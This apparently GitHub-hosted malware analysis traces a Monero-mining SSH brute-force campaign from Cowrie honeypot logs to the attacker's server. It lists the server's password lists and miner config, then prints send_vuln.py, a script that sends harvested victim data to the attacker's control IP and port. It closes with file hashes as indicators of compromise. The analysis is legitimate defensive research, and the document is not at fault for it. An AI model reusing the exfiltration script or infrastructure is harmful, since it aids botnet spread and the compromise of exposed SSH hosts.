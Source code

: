 
### The log file

<img src="https://i.imgur.com/OlKKF60.png" alt="http://209.141.32.204" width="70%" height="35%">
<br>
The command below was used in the screenshot above to scrape & print information about a session in which the user tires to use my honeypot to mine Moner.

```bash
tail -f cowrie.json | jq -r '. | select(.eventid | contains("cowrie.command.input")) | "CMD: " + .input, "Session: " + .session,  "SRC IP: " + .src_ip + "\r\n"'
```
The image below shows the results of the DirSearch scan of 209.141.32[.]204. The image shows that the IP has a couple of hidden directories and a handful of other files. 
<img src="https://i.imgur.com/TGUCk5q.png" alt="http://209.141.32.204 dirsearch" width="35%" height="35%">

### The hidden .ssh directory
The image below shows the contents of `http://209.141.32[.]204/.ssh`. Right of away, two files grab my attention. The `config.json` and the `krane` file. These grab my attention because those files were created just three days ago.<br><br>
<img src="https://i.imgur.com/SGZIAVk.png" alt="http://209.141.32[.]204/.ssh" width="35%" height="35%">

## Config.json
The `config.json` file also caught my eye because config.json files are often used by miners for mining. 
The following Monero address was being used for the mining. The pool that was being used was "hashvault.pro".

`49ubSTdDp9hPmYE7paRM6PZFLmqvsedZ56MXLUT8mvYnTzjVCKGDbpuW4RVdvZon228uWnkjoJN8S6w5S4LdgeK8UBMMEhJ`

Most miners have a feature built into the miner that allows the user to donate some of their hashes to the developers. This miner might donate all their hashes to the developers 1 minute every hour. The value was set as 1, this is intresting becauase they author of the malware was donating their hash power to the developers.  This might be on purpose or a careless mistake of a inexperienced malware author. 

### The .db directory
<img src="https://i.imgur.com/DI2TCio.png" alt="http://209.141.32[.]204/.db" width="35%" height="35%">
<br>
The image above shows the contents of the .db directory. The directory contains a handful of text files that are used by the malware to brute force machines that have SSH exposed.<br>

<img src="https://i.imgur.com/DFAvqKD.png" alt="http://209.141.32[.]204/.db" width="35%" height="35%"><br>
The image above shows the contents of pass.txt. The pass.txt file contains popular passswords and usernames. 

### K 
The 'k' file can be found at `http://209.141.32[.]204/k`. In order to ungzip the file, we need to use the `cp k k.gz` commmand to add the 
gz extension to the file. This is needed so we can ungzip the file. Next we used `gzip -d k.gz` to ungzip the file. The result ended with a new file named `k.tar`. Once again we have to use the command `cp k k.tar` to change the file's extension to .tar. Lastly we use the command 
`tar -xvf k.tar` to untar the file. The results are a new hidden folder named `.k.tar`. 

```
a:             ASCII text
boner:         ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), statically linked, for GNU/Linux 2.6.24, stripped
k_config.json: JSON data
main:          ELF 64-bit LSB shared object, x86-64, version 1 (GNU/Linux), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=6585c7cd03ec265663087a7edaa517813514e9fa, for GNU/Linux 3.2.0, not stripped
ra:            ASCII text
rx:            ASCII text
send_vuln.py:  Python script, ASCII text executable
ta:            ASCII text
tx:            ASCII text
x:             ASCII text
```
The snippet above shows the contents of the .k.tar directory. 

## The contents of k_config.json
```text
{
    "remote":
    {
        "ip_to_send_vuln": "209.141.32.204",
        "port_to_send_vuln": 10102
    },

    "events":
    {
        "send_vuln_after_seconds": 15

    }
}
```
The snippet above shows the contents of k_config.json. The JSON file looks like a config file that contains the IP and the port that is used by the malware.  By looking at the events key, it looks like this config file is used with by the `send_vuln.py` file. The port that the config file uses is port 10102. The IP that is listed in the config file is the same IP that was used to download all the other files.

### The send_vuln.py file
```python
import socket
import json
import time
import os

data = ""

with open("k_config.json", 'r') as ftr:
    data = json.load(ftr)


remote_data = [data["remote"]["ip_to_send_vuln"], data["remote"]["port_to_send_vuln"]]
trigger_after_econds = data["events"]["send_vuln_after_seconds"]

def read_file(filename):
    ce_am_citit = []
    with open(filename, 'r') as ftr:
        for l in ftr:
            ce_am_citit.append(l.strip())

    return ce_am_citit

def remove_file(filename):
    os.remove(filename)



start_time = 0
while True:
    time.sleep(1)
    try:
        if time.time() - start_time > trigger_after_econds:
            start_time = time.time()
            prinse = read_file("prinse.txt")
            if len(prinse) < 1:
                continue

            sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            sock.connect((remote_data[0], remote_data[1]))

            string_to_send = ""

            for p in prinse:
                string_to_send += p + "\n"

            sock.send(bytes(string_to_send, "UTF-8"))
            print("vuln sent")
            remove_file("prinse.txt")

            sock.close()
    except:
        pass
```

The snippet above shows the contents of the `send_vuln.py` file. The file is written in Python. By looking at the script it looks like the Python script reads the `k_config.json` file to gather the port and IP of the control server, the code then uses Python's socket module to connect to server. 


### IOC
dfa6d202fc24623a5aadf3684aadcfbce72ee8aa  config.json<br>
f1cb326ee8ab4217cf9191f395e35fe684dd426a  a<br>
bfa1d6ecc6a4f2da893b88f15b96a96320dd27c5  b<br>
d987680671c4c35610d659dd5dc2e0f4d387e0b4  pass.txt<br>
3fbbd4ef15e064bd2f4b8b643aacbafdfc347833  dump.txt<br>
16e358574ef61f841f8b6ddb45188446c7da8c7d  k<br>
ad4649a79b67c1db9a8343e18af3b7c0d323172c  a<br>
a9c7d059a22fed787f48698c5c10b0b5146f616d  boner<br>
9c9a96383883601d9ad8a7d78eb3995a7dfbc350  k_config.json<br>
2ccf0c37b004b1793dd79792dc6ffd83e7438137  main<br>
1f8f3d751b578242e9c2b32391c8a162e154c7b2  ra<br>
e5dcaab24fab63b050a5a80b50f5a9ad17d127f1  rx<br>
638108b2217b21843ba7f1c80a95f756e5e2310d  send_vuln.py<br>
a82a8eda9177b2ef1e8936784d0aa5d79fa2ddce  ta<br>
e85c6b190d672884a4a37039cb35dfc73a84318a  tx<br>
f5f323005f8c71324c53c864d28db4cbed8e78ac  x<br>
